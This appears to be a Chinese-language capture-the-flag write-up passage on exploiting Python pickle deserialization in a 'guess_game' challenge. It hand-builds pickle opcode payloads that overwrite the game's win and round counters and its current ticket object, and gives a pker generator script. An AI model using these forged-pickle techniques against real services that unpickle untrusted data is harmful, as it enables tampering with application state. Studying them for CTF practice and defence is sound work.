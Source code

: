 开始构造

```
cguess_game
game
}S'round_count'
I10
sS'win_count'
I10
sb
```

有个小验证，assert type(ticket) == Ticket。

```
ticket = Ticket(6)
res = pickle.dumps(ticket)  # 这里不能再用 0 号协议，否则会出现 ccopy_reg\n_reconstructor
print(res)
'''
\x80\x03cguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x06sb.
'''
```

最终 payload：

```
cguess_game\ngame\n}S"win_count"\nI10\nsS"round_count"\nI9\nsbcguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x06sb.
```

尝试覆盖掉 current_ticket：

```
cguess_game\n
game
}S'curr_ticket'
cguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x06sbp0
sbg0
.
```

这里用了一下 memo，存储了 ticket 对象，再拿出来放到栈顶。

最终 payload：

```
cguess_game\ngame\n}S'curr_ticket'\ncguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x07sbp0\nsbg0\n.
```

**pker生成**

```
ticket=INST('guess_game.Ticket','Ticket',(1))
game=GLOBAL('guess_game','game')
game.win_count=9
game.round_count=9
game.curr_ticket=ticket

return ticket
```
